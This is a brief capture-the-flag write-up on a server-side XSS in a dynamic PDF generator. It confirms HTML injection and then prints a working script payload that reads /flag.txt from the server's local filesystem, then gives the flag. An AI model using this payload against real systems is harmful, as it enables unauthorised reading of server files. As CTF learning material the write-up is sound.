


They say they santized the user-input, so let's try to insert `<b>kobi</b>` in every possible field, and so what's happend.

As we can see, the name is bold, means xss is working. 


let's try to read `/flag.txt`

I took the code from here [hacktricks server side xss dynamic pdf](https://hacktricks.boitatech.com.br/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf#read-local-file)
```js
<script>
x=new XMLHttpRequest;
x.onload=function(){document.write(this.responseText)};
x.open("GET","file:///flag.txt");x.send();
</script>
```




**Flag:** **_`s3rv3r_s1d3_xss_1s_w4y_m0r3_fun`_**
